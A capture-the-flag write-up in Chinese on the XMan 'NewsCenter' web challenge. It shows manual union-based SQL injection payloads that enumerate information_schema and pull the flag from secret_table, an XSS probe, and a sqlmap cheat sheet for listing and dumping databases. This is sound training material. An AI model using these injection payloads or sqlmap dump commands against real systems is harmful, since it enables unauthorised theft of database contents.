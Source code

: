 ## XMan web NewsCenter SQL注入

**sql注入学习参考：https://www.cnblogs.com/ssooking/p/8137597.html**

**sqlmap使用参考手册：http://zerlong.com/512.html**

#### 思路：

1. 打开题目，有一处搜索框，搜索新闻。考虑xss或sql注入，随便输入一个abc，没有任何搜索结果，页面也没有什么变化，考虑SQL注入。

2. sql注入测试：搜索框中随便输入一个1
   url栏没有请求参数，无论怎么测试页面都没有返回值

3. xss测试：页面也是没有返回值，并且根据源码可以看出，js代码是没有被过滤的，所以这里就不存在xss漏洞

   <script>alert(1)</script>

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190613182509222.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjE3MDM0,size_16,color_FFFFFF,t_70)

4. 请求参数去哪了呢？于是又猜测是否是POST请求，我们打开bp，进行抓包查看，哎，有情况
   ![在这里插入图片描述](https://img-blog.csdnimg.cn/20190613181959480.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjE3MDM0,size_16,color_FFFFFF,t_70)



#### 手动SQL注入

**对information_schema表结构有一定的理解**

1. 首先用 `' and 0 union select 1,2,3 #` 来初步判断该sql查询返回三列数据

   无回显报错 输入的不对就获取网页失败

   ![img](https://img-blog.csdnimg.cn/20190608195547527.PNG?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MjE1MTYxMQ==,size_16,color_FFFFFF,t_70)

2. 用 `' and 0 union select 1,TABLE_SCHEMA,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS #` 得到表名，很明显我们需要得到 `secret_table` 表中的内容

   或

   `1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#`
```sql
在MySQL中，把 information_schema
    看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。

   列出test数据库中所有的表名，类型(普通表还是view)和使用的引擎
     select table_name, table_type, engine
     FROM information_schema.tables
     WHERE table_schema = 'test'
     ORDER BY table_name DESC;
   解释： 对表的meta data的查询需要使用information_schema.tables， table_schema是数据库的名称，table_name是具体的表名，table_type指的是表的类型
```

3. `' and 0 union select 1,column_name,data_type from information_schema.columns where table_name='secret_table'#` 得到 `secret_table` 表的列名以及数据类型

   ![img](https://img-blog.csdnimg.cn/20190608200218788.PNG?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MjE1MTYxMQ==,size_16,color_FFFFFF,t_70)

   或

   `1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='secret_table'#`

   ![columns](https://img-blog.csdnimg.cn/20190330233947770.png)

4. `' and 0 union select 1,2,fl4g from secret_table #`

   或

   `1' union select 1,2,fl4g from news.secret_table#`





#### 使用sqlmap的自动化注入

##### 常用的SQLmap语句：
```shell
sqlmap -u "注入地址"     --dbs          // 列举数据库
sqlmap -u "注入地址" --tables -D "数据库" // 列举数据库的表名
sqlmap -u "注入地址" --columns -T "表名" -D "数据库" // 获取表的列名
sqlmap -u "注入地址" --dump -C "字段,字段" -T "表名" -D "数据库" // 获取表中的所有数据

sqlmap -r "含http头的文件"     --dbs          // 列举数据库
sqlmap -r "含http头的文件" --tables -D "数据库" // 列举数据库的表名
sqlmap -r "含http头的文件" --columns -T "表名" -D "数据库" // 获取表的列名
sqlmap -r "含http头的文件" --dump -C "字段,字段" -T "表名" -D "数据库" // 获取表中的所有数据
```

#### 题解

将http头保存为1.txt，试试用sqlmap爆数据库
`sqlmap -r 1.txt -dbs`

**参数 文本文件 -r REQUESTFILE Load HTTP request from a file**

很快，爆出数据库
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190430123921231.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3NpbGVuY2UxXw==,size_16,color_FFFFFF,t_70)

查看news数据库内容`sqlmap -r 1.txt -D news --dump`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190430124058254.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3NpbGVuY2UxXw==,size_16,color_FFFFFF,t_70)
得到flag！

```shell
sqlmap -r xctfrequest.txt -D news --tables
sqlmap -r xctfrequest.txt -D news -T secret_table  --columns
sqlmap -r xctfrequest.txt -D news -T secret_table -C "id,fl4g" --dump
```

一次性把new数据库内的内容全部爆出来，这样就不用一步步找flag在哪了，直接了当，所以对于有目的，好寻找的我们可以使用第一种步步深入；如果比较难找，就第二种方法比较好

`sqlmap -r xctfrequest.txt -D news --dump`

